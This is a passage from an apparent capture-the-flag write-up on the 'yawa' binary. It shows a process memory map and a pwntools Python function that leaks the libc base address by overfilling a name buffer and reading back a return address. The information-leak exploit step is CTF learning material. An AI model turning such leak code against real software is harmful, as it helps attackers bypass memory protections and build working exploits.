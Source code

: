 === "bash"

    ```bash hl_lines="7"
    cat /proc/19607/maps 
    555555554000-555555555000 r--p 00000000 08:01 1212715                    /home/kali/Downloads/yawa_s/yawa_patched
    555555555000-555555556000 r-xp 00001000 08:01 1212715                    /home/kali/Downloads/yawa_s/yawa_patched
    555555556000-555555557000 r--p 00002000 08:01 1212715                    /home/kali/Downloads/yawa_s/yawa_patched
    555555557000-555555558000 r--p 00002000 08:01 1212715                    /home/kali/Downloads/yawa_s/yawa_patched
    555555558000-55555555b000 rw-p 00003000 08:01 1212715                    /home/kali/Downloads/yawa_s/yawa_patched
    7ffff7c00000-7ffff7c28000 r--p 00000000 08:01 1213608                    /home/kali/Downloads/yawa_s/libc.so.6
    7ffff7c28000-7ffff7dbd000 r-xp 00028000 08:01 1213608                    /home/kali/Downloads/yawa_s/libc.so.6
    7ffff7dbd000-7ffff7e15000 r--p 001bd000 08:01 1213608                    /home/kali/Downloads/yawa_s/libc.so.6
    7ffff7e15000-7ffff7e16000 ---p 00215000 08:01 1213608                    /home/kali/Downloads/yawa_s/libc.so.6
    7ffff7e16000-7ffff7e1a000 r--p 00215000 08:01 1213608                    /home/kali/Downloads/yawa_s/libc.so.6
    7ffff7e1a000-7ffff7e1c000 rw-p 00219000 08:01 1213608                    /home/kali/Downloads/yawa_s/libc.so.6
    7ffff7e1c000-7ffff7e29000 rw-p 00000000 00:00 0 
    7ffff7fb8000-7ffff7fbd000 rw-p 00000000 00:00 0 
    7ffff7fbd000-7ffff7fc1000 r--p 00000000 00:00 0                          [vvar]
    7ffff7fc1000-7ffff7fc3000 r-xp 00000000 00:00 0                          [vdso]
    7ffff7fc3000-7ffff7fc5000 r--p 00000000 08:01 1212676                    /home/kali/Downloads/yawa_s/ld-2.35.so
    7ffff7fc5000-7ffff7fef000 r-xp 00002000 08:01 1212676                    /home/kali/Downloads/yawa_s/ld-2.35.so
    7ffff7fef000-7ffff7ffa000 r--p 0002c000 08:01 1212676                    /home/kali/Downloads/yawa_s/ld-2.35.so
    7ffff7ffb000-7ffff7ffd000 r--p 00037000 08:01 1212676                    /home/kali/Downloads/yawa_s/ld-2.35.so
    7ffff7ffd000-7ffff7fff000 rw-p 00039000 08:01 1212676                    /home/kali/Downloads/yawa_s/ld-2.35.so
    7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
    ```

Code snippet to get libc base address:

```py title="leak libc base address"
def get_libc_base_address():
    io.recvuntil(b"> ")                  # wait till target binary is ready to read choice
    io.sendline(b"1")                    # send choice 1 - enter value for name
    io.sendline(b"a" * 103)              # enter name 103 a + '\n' that is appended automatically
    io.recvuntil(b"> ")                  # wait till binary asks us to make a choice
    io.sendline(b"2")                    # send choice 2 - print name value
    io.recvline()                        # receive all aaaa... till '\n'
    # receive libc_main address in little endian and pad with 0
    addr_libc_main = io.recvline().strip()
    addr_libc_main = addr_libc_main + bytearray(8 - len(addr_libc_main))
    # convert from little to big endian and subtract return offset to get base address of libc
    return unpack(addr_libc_main[0:8]) - 0x29d90
```
